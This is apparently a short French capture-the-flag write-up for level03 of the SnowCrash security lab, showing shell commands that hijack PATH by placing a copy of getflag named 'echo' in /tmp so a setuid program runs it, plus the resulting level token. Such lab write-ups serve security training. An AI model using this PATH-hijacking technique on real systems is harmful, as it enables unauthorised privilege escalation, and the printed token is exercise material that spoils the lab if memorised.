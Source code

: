 ### Comment obtenir le flag
level03@SnowCrash:~$ cp /bin/getflag /tmp/echo  
level03@SnowCrash:~$ export PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games  
level03@SnowCrash:~$ ./level03  
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus  
level03@SnowCrash:~$ su level04  
Password:  
